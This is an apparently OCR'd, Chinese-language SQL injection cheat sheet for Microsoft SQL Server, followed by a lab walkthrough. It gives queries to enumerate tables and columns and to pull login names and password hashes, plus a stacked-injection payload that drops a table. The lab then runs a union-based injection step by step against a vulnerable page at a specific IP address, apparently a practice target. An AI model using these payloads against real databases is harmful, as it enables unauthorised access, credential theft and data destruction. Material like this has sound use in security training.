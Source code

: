 ```bash
# 列表
SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for views

SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;

SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, table_name FROM information_schema.columns

SELECT STRING_AGG(name, ', ') FROM master..sysobjects WHERE xtype = 'U'; -- Change delimeter value such as ', ' to anything else you want => trace_xe_action_map, trace_xe_event_map, spt_fallback_db, spt_fallback_dev, spt_fallback_usg, spt_monitor, MSreplication_options  (Only works in MSSQL 2017+)


# 列列
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’); — for the current DB only

SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, column_name FROM information_schema.columns


# 提取用户名密码
#MSSQL 2000:
SELECT name, password FROM master..sysxlogins
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins (Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.)

#MSSQL 2005
SELECT name, password_hash FROM master.sys.sql_logins
SELECT name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins


# 堆叠注入
ProductID=1; DROP members--
```





**实验：**

```bash
http://219.153.49.228:40603/new_list.asp?id=2 and 1=1  #页面返回正常说明存在注入点。

# 第二步：查找列数 
http://219.153.49.228:40603/new_list.asp?id=2 order by 1 # 成功 ；order by 2 成功；order by 3 失败； order by 4 成功；order by 5 失败 说明列数位于 3-4之间。

# 第三步：查找回显点
http://219.153.49.228:40603/new_list.asp?id=2 and 1=2 union all select null,null,null,null；# 挨个替换null 发现 select null,2,null,null 页面出现回显。

# 第四步：查找所在库名称添加： 
?id=2 and 1=2 union all select 1,(select db_name()), '3', 4  #找到数据库名称。 提示：这里也可以使用db_name(1)、db_name(2)等查询其他数据库

# 第五步：查找数据库表名称：
?id=2 and 1=2 union all select 1,(select top 1 name from mozhe_db_v2.dbo.sysobjects where xtype = 'U'),'3',4  # 提示: xtype='U'为用户表 
```